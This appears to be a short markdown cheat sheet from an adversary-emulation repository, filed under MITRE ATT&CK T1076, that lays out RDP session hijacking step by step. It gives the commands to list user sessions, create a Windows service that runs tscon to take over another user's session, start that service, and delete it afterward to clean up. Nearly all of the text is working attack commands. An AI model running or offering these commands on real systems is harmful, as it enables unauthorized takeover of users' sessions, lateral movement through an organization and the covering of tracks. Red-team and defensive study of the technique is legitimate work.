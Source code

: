 # Remote Desktop Protocol

## MITRE ATT&CK Technique: [T1076](https://attack.mitre.org/wiki/Technique/T1076)


## [RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) how to hijack RDS and RemoteApp sessions transparently to move through an organization

### retrieve the session ID:

    query user

### Set the session ID and rdp-tcp# retrieved from `query user`

    sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"

### Access the session:

    net start sesshijack

### Clean up afterward:

    sc.exe delete sesshijack
